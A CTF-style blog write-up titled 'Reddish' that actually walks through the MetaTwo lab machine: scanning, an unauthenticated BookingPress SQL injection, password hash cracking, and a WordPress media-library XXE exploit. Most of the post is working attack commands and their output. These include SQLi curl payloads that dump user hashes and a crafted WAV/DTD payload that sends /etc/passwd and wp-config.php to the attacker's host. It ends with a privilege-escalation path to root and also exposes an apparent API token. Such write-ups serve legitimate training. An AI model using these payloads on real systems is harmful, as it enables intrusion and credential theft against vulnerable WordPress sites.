 ```yaml
---
layout: post
title: "Reddish"
date: 2025-04-20 
categories: CTPS Playlist
---
```

# Attack Path

First enumerate the open ports and services

```bash
rustscan -a 10.129.228.95

sudo nmap -sV -sC -p 21,22,80 10.129.228.95 -oA nmap/metatwo

result:
PORT   STATE SERVICE VERSION
21/tcp open  ftp?
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c4:b4:46:17:d2:10:2d:8f:ec:1d:c9:27:fe:cd:79:ee (RSA)
|   256 2a:ea:2f:cb:23:e8:c5:29:40:9c:ab:86:6d:cd:44:11 (ECDSA)
|_  256 fd:78:c0:b0:e2:20:16:fa:05:0d:eb:d8:3f:12:a4:ab (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://metapress.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

upon visiting the IP, we get a domain metapress.htb, let’s add that to /etc/hosts

Let’s try the ftp server.

```bash
ftp 10.129.228.95
```

Let’s enumerate subdirectories and subdomains

```bash
gobuster dir -u http://metapress.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```

Also from the webapplyzer, we find out the website is using WordPress 5.6.2 and php 8.0.62

Let’s use wpscan to find out plugin and theme vulnerabilties

```bash
sudo wpscan --url http://metapress.htb -e ap --plugins-detection aggressive  --api-token 2xkAZXNy4fEMFKyADzmPF2VTMDYb9qV3aUtDrDK5Zzs

result:
bookingpress-appointment-booking
The version used is out of date and there are a lot of vulnerabilities
unauthenticated SQL injection -  https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357/

```

The POC found is

```bash
curl -i 'https://example.com/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
 
 
#We use this command but search up the wp_nonce used on the target website and change that:

curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=1c907fdc18&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
  
result:
[{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}] 

```

Now we confirmed the vulnerability exist, we can send the request to burp and save it to a file for sqlmap to use. First turn burp intercept on, then execute:

```bash
curl -s -q 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=1c907fdc18&category_id=33&total_service=-7502' -x http://127.0.0.1:8080   #-x is proxy
```

If burp proxy did not catch that, just go on the proxy tab and go to http history and find the request. Once found save the file then use; We get a warning saying the parameter total_service had leftover manual injection which is a negative number, simply remove the negative sign and sqlmap will run smoothly. It seems the parameter is vulnerable to time-based injection:

```bash
sqlmap -r booking.req --batch --dbs

result:
available databases [2]:
[*] blog
[*] information_schema

sqlmap -r booking.req --batch -D blog --tables

```

However, sqlmap is taking a very long time because it is a time-based attack. Let’s carry on manually. We want to retrieve user credentials from wordpress, and the default table for that is wp_users. Let’s try and extract the username and password from that:

```bash
curl -s -q 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=1c907fdc18&category_id=33&total_service=-7502) UNION ALL SELECT user_login,user_pass,@@version_compile_os,1,2,3,4,5,6 from wp_users-- -' | jq .

result:
"bookingpress_service_id": "admin",                                                                                                                   
    "bookingpress_category_id": "$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.", 
    
    
    "bookingpress_service_id": "manager",                                                                                                                 
    "bookingpress_category_id": "$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70",  
```

We can use the curl options and pipe it to jq (as it comes back as json data) to view it better. Now we have the hashes for admin user and manager. Let’s use hashcat to crack the hash on native host; not vm. Put the has

```bash
hashcat.exe -m 400 wordlists\admin_hash.txt wordlists\rockyou.txt

hashcat.exe -m 400 wordlists\admin_hash.txt --show

#manager:partylikearockstar

#admin:
```

We know the admin login for wordpress is at /wp-admin, let’s navigate to the url and attempt to log in with manager credentials. Success. On the site, in the media tab, we see we can upload files. Let’s try and upload a webshell. We get an error. Looking for wordpress 5.6.2 exploit we find this blog: [https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/). Let’s use this explot. First create a wav file

```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.132:8001/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

Next create the dtd file:

```bash
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">

<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.132:8001/?p=%file;'>" >
```

We got a base64 encoded message back. To decode, simply:

```bash
echo 'PASTE_HERE' | base64 -d

result:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
jnelson:x:1000:1000:jnelson,,,:/home/jnelson:/bin/bash
systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:105:111:MySQL Server,,,:/nonexistent:/bin/false
proftpd:x:106:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:107:65534::/srv/ftp:/usr/sbin/nologin

```

Now, let’s try and view the wp-config.php file to see if any credentials are leaked here.

```bash
#CHANGE FROM :
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">

#TO:
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=../wp-config.php">
```

We find ftp user’s password. Let’s add the subdomain ftp.metapress.htb in /etc/hosts/ and try to log on to the ftp server

```bash
ftp ftp.metapress.htb
```

Looking through the FTP server. Found a file send_mail.php. Found another set of credentials and another subdomain mail.metapress.htb. In our initial enumeration, we did not find a mail server. Let’s try and login to ssh with the set of credentials. It worked. In jnelson’s directory we list all files with:

```bash
ls -al
find . -type f
```

We find hidden dir .passpie, and in there we find root.pass with a PGP message.  We also find a file .key containing the pgp key. Let’s use johntheripper to crack the password.

First save the pgp key and convert it to john format

```bash
gpg2john pgp_key

#save output to new file gpg_john
Passpie:$gpg$*17*54*3072*e975911867862609115f302a3d0196aec0c2ebf79a84c0303056df921c965e589f82d7dd71099ed9749408d5ad17a4421006d89b49c0*3*254*2*7*16*21d36a3443b38bad35df0f0e2c77f6b9*65011712*907cb55ccb37aaad:::Passpie (Auto-generated by Passpie) <passpie@local>::pgp_key
```

Now crack it with john

```bash
john.exe --format=gpg --wordlist=C:\Users\oahzl\Desktop\hashcat-6.2.6\wordlists\rockyou.txt C:\Users\oahzl\Desktop\shared\gpg_john

john.exe --format=gpg C:\Users\oahzl\Desktop\shared\gpg_john --show
```

Now we can use passpie to export the passwords

```bash
passpie export /home/jnelson/creds
cat creds
```

We have root password. Now just switch account

```bash
su root
```

- wordpress plugin vulnerability
- booking-press
- sql injection vulnerability
- wordpress 5.6.2 vulnerability
- xxe file disclosure
- john to crack gpg password
